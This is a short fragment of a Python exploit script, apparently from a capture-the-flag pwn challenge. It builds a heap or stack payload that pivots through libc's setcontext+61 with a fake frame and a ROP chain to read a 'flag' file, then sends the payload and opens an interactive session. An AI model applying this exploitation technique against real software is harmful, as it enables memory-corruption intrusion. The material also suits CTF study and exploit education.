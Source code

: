 ```
payload = p64(gadget) + p64(fake_frame_addr) + '\x00' * 0x20 + p64(libc.sym['setcontext'] + 61) + \
          frame[0x28:] + "flag\x00\x00\x00\x00" + p64(0) + flat(rop_data)

r.sendafter('&gt;&gt;', payload)
r.interactive()
```
